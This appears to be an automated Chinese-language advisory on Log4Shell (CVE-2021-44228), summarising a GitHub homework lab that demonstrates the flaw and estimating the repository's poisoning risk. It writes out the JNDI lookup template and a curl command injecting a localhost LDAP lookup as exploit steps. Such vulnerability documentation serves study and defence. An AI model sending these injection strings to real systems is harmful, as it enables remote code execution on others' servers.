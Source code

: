## CVE-2021-44228-Log4Shell

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j2

**危害等级:** 高危，允许未经身份验证的远程攻击者执行任意代码

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2、2.12.3 和 2.3.1)

**利用条件:** 目标应用程序使用受影响版本的 Log4j2，且允许记录用户可控的输入。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2021-44228，也被称为 Log4Shell，是一个存在于 Apache Log4j2 中的严重漏洞。攻击者可以通过发送特制的字符串，其中包含 JNDI 查找，利用此漏洞执行任意代码。当 Log4j2 尝试记录这些字符串时，它会通过 JNDI 查找连接到攻击者控制的 LDAP 或其他 JNDI 服务，并执行恶意代码。

**漏洞利用方式：**

1.  攻击者发送包含`${jndi:<协议>://<攻击者服务器>/<资源>}`的恶意请求到目标系统。`${jndi}`是触发漏洞的关键部分，它指示 Log4j2 执行 JNDI 查找。
2.  目标系统使用 Log4j2 记录该请求。
3.  Log4j2 解析该字符串并尝试连接到攻击者指定的 JNDI 服务器（例如，LDAP）。
4.  JNDI 服务器返回恶意代码（例如，Java class 文件）。
5.  Log4j2 加载并执行该恶意代码，导致远程代码执行。

**POC有效性：**

根据漏洞库信息和搜索引擎结果，该漏洞非常有效，并被广泛利用。提供的 Dockerfile 和 `docker-compose.yml` 文件用于构建一个包含易受攻击的 Log4j2 版本的应用程序。`ldap_server.py` 模拟了一个恶意的 LDAP 服务器，用于提供攻击载荷。使用`curl http://localhost:8080?input=${jndi:ldap://localhost:8000/Exploit}`命令验证漏洞利用过程。

**投毒风险：**

分析提供的代码，投毒风险较低，约为 5%。主要依据如下：

*   `ldap_server.py` 仅用于模拟攻击，本身不包含任何恶意代码，只返回“Exploit payload simulated.”字符串。
*   Dockerfile 构建的镜像是使用受漏洞影响的Log4j2，目的是为了验证漏洞，不是为了投毒。
*   `pom.xml` 文件指定了 Log4j2 的版本为 2.17.1, 此版本已经修复了漏洞，但README.md文件中提到使用了存在漏洞的2.14.1版本，存在描述不一致，且依赖版本管理不严谨
*   虽然主体没有明显的投毒代码，但在真实环境中，攻击者可能会替换 `ldap_server.py` 中的 payload，或者修改 Dockerfile 构建恶意镜像。因此存在潜在的风险。
*   README.md文件描述了缓解措施，较为完备。

总体而言，提供的代码主要是用于漏洞演示和验证，而非恶意投毒。但开发者仍需保持警惕，在实际应用中注意代码审查和依赖管理。

**项目地址:** [SerpilRivas/log4shell-homework9](https://github.com/SerpilRivas/log4shell-homework9)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)